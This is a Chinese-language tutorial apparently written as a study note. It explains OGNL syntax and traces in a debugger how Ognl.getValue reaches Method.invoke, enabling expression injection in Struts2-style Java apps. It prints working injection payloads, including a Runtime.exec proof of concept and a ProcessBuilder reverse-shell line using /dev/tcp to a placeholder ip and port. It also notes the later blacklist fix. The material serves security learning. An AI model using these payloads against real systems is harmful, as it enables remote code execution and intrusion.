# 前言

之前学习了SPEL，El表达式注入，如今来看看另外一个java表达式注入——OGNL表达式注入，这个表达式注入在struts2中非常常见，在学习struts2之前，先来学习OGNL表达式注入漏洞

# 环境搭建

```
<dependency>
    <groupId>org.apache.ibatis</groupId>
    <artifactId>ibatis-core</artifactId>
    <version>3.0</version>
</dependency>
```

# OGNL基础

## OGNL是什么

`OGNL`全称`Object-Graph Navigation Language`，是通过对象间相互依赖的关系获取到对象中的属性和方法的一种工具

## OGNL三要素

1. expression表达式：用来指定`OGNL`将要执行的内容
2. context上下文对象：用来指定`OGNL`运行时的上下文，一般来说用MAP来储存，有个`Root`对象和表达式, 就可以使用`OGNL`进行简单的操作了, 如对`Root`对象的赋值与取值操作. 但是, 实际上在`OGNL`的内部, 所有的操作都会在一个特定的数据环境中运行. 这个数据环境就是上下文环境(Context)

3. root根对象：用来指定`OGNL`将对谁执行（即操作对象）

在[先知的这篇文章](https://xz.aliyun.com/t/10482)中可以看出三要素的使用，而且看到了OGNL获取对根对象的相关值，还有非根对象相关值的使用

## OGNL语法

### 运算符

OGNL表达式支持Java基本运算，所以运算符`+`、`-`、`++`、`*`、`--`、`==`、`/`、`%`等在OGNL都是支持的，另外还支持`in`、`eq`、`gt`、`mod`、`not in`等

### 容器，数组，对象

`OGNL`支持对数组和`ArrayList`等容器的顺序访问, 例如:`group.users[0]`. 同时,`OGNL`支持对`Map`的按键值查找, 例如:`#session['mySessionPropKey']`. 不仅如此,`OGNL`还支持容器的构造的表达式, 例如:`{"green", "red", "blue"}`构造一个`List`,`#{"key1" : "value1", "key2" : "value2", "key3" : "value3"}`构造一个`Map`. 也可以通过任意类对象的构造函数进行对象新建, 例如:`new Java.net.URL("xxxxxx/")`.

### 通过`.`获取对象的属性或方法

正如我们平常在java代码中写到一样

```
User.name
com.User.name
User.setName("DawnT0wn")
```

### `@`获取静态对象、静态方法和静态变量

```
@java.lang.Runtime@getRuntime()				#获取Runtime静态对象的静态方法getRuntime()
@java.lang.System@getProperty("user.dir")
```

### `#`获取非原生类型对象

之前在提到三要素的时候提到过context上下文环境需要一个root对象，但是是通过map结构存储的context，可以put一个新的键值对，但是root对象只有一个，对于非root对象就需要用到#

```
例如
Student student1 = new Student();
Student student2 = new Student();
context.setRoot(student1);
context.put("student2",student2);

#student2.name			设置的根对象是student1，那么ognl对student2的name进行操作的时候就需要用#
```

### `%`符号

`%`符号的用途是在标志的属性为字符串类型时，告诉执行环境%{}里的是OGNL表达式并计算表达式的值

### `$`符号

`$`在配置文件中引用OGNL表达式

### `new`创建实例

```
new java.lang.String("test")
new ProcessBulider(new java.lang.String[]{"open","/System/Applications/Calculator.app"})
new ProcessBuilder(new java.lang.String[]{"/bin/bash","-c","bash -i >& /dev/tcp/ip/port 0>&1"})
```

`{}`和`[]`的用法：

在OGNL中，可以用`{}`或者它的组合来创建列表、数组和map，`[]`可以获取下标元素。

创建list：`{value1,value2...}`

```
{1,3,5}[1]
```

创建数组：`new type[]{value1,value2...}`

```
new int[]{1,3,5}[0]
```

创建map：`#{key:value,key1:value1...}`

```
#{"name":"xiaoming","school":"tsinghua"}["school"]
```

除了一些符号和集合，还支持Projection投影和Selection选择等，具体可参考官方文档：https://commons.apache.org/proper/commons-ognl/language-guide.html 附录Operators部分

也可以参考(https://www.freebuf.com/articles/web/325700.html

## 能解析 OGNL 的 API

能解析`OGNL`的`API`如下表所示:

|                    类名                     |                            方法名                            |
| :-----------------------------------------: | :----------------------------------------------------------: |
| com.opensymphony.xwork2.util.TextParseUtil  |       translateVariables, translateVariablesCollection       |
|   com.opensymphony.xwork2.util.TextParser   |                           evaluate                           |
| com.opensymphony.xwork2.util.OgnlTextParser |                           evaluate                           |
|    com.opensymphony.xwork2.ognl.OgnlUtil    | setProperties, setProperty, setValue, getValue, callMethod, compile |
| org.apache.struts2.util.VelocityStrutsUtil  |                           evaluate                           |
|     org.apache.struts2.util.StrutsUtil      | isTrue, findString, findValue, getText, translateVariables, makeSelectList |
|  org.apache.struts2.views.jsp.ui.OgnlTool   |                          findValue                           |
|   com.opensymphony.xwork2.util.ValueStack   |        findString, findValue, setValue, setParameter         |
| com.opensymphony.xwork2.ognl.OgnlValueStack |  findString, findValue, setValue, setParameter, trySetValue  |
|                  ognl.Ognl                  |             parseExpression, getValue, setValue              |

调用过程中可能会涉及到的一些类:

|                          涉及类名                          |                            方法名                            |
| :--------------------------------------------------------: | :----------------------------------------------------------: |
|    com.opensymphony.xwork2.ognl.OgnlReflectionProvider     | getGetMethod, getSetMethod, getField, setProperties, setProperty, getValue, setValue |
| com.opensymphony.xwork2.util.reflection.ReflectionProvider |                                                              |

# OGNL表达式注入

通过基本语法，我们了解到了OGNL可以去调用静态方法传入参数，可以实例化对象调用其中方法赋值，那么特定的写法是可以去命令执行的

```
@java.lang.Runtime@getRuntime().exec('open /System/Applications/Calculator.app')

(new ProcessBuilder(new java.lang.String[]{"/bin/bash","-c","bash -i >& /dev/tcp/ip/port 0>&1"})).start()
```

测试代码

```
public static void main(String[] args) throws OgnlException, IOException {
        OgnlContext ognlContext = new OgnlContext();
        Ognl.getValue("@java.lang.Runtime@getRuntime().exec('open /System/Applications/Calculator.app')",ognlContext,ognlContext.getRoot());
    }
```



# 调试分析

在Ognl.getValue下断点向下跟进到Ognl#parseExpression


这个方法的返回值是一个能够被OGNL解析的ASTChain类型



有两个子结点，分别是一个是静态方法ASTStaticMethod，应该是ASTMethod

回到getValue，再次调用getValue，来到了



继续调用了getValue，将tree转化成Node类型，tree是一个ASTChain类型，继承自`SimpleNode`、`SimpleNode`继承自`Node`

来到SimpleNode#getValue，最后会调用

```
return this.evaluateGetValueBody(context, source);
```

跟进evaluateGetValueBody



调用了ASTChain的getValueBody



在这个方法中会循环解析ASTChain的children结点，并调用getValue方法，跟进后又调用了evaluateGetValueBody，但是这次是ASTStaticMehod的方法了，不过还是会来到SimpleNode，只是后面的getValueBody会有所不同了


evaluateGetValueBody中调用了ASTStaticMehod#getValueBody



来到getValueBody



既然是调用getRuntime这个静态方法，那多半跟反射有关的，跟进callStaticMethod


跟进cakkStaticMethod

```
public Object callStaticMethod(Map context, Class targetClass, String methodName, Object[] args) throws MethodFailedException {
    List methods = OgnlRuntime.getMethods(targetClass, methodName, true);
    return OgnlRuntime.callAppropriateMethod((OgnlContext)context, targetClass, (Object)null, methodName, (String)null, methods, args);
}
```

跟进OgnlRuntime.callAppropriateMethod


跟进invokeMethod


调用了invoke方法，获取到了java.lang,Runtime.getRuntime()

至于另外一个结点，因为是ASTMethod类型，所以来到了ASTMethod#getValueBody



跟进callMethod



跟进callMethod



通过getMethods后，跟进OgnlRuntime.callAppropriateMethod



跟进invokeMethod，和刚才一样，调用了invoke方法



从整个调试过程可以看出来

`OGNL`表达式的`getValue`解析过程就是先将整个`OGNL`表达式按照语法树分为几个子节点树, 然后循环遍历解析各个子节点树上的`OGNL`表达式, 其中通过`Method.invoke`即反射的方式实现任意类方法调用, 将各个节点解析获取到的类方法通过`ASTChain`链的方式串连起来实现完整的表达式解析、得到完整的类方法调用


当Ognl>=3.1.25、Ognl>=3.2.12配置了黑名单检测，会导致上面的实验失败，提示`cannot be called from within OGNL invokeMethod() under stricter invocation mode`，在使用StricterInvocation模式下不允许执行`java.lang.Runtime.getRuntime()`

在高版本中的`OgnlRuntime.invokeMethod`中，添加了黑名单判断


参考链接：

https://xz.aliyun.com/t/10482

https://www.freebuf.com/articles/web/325700.html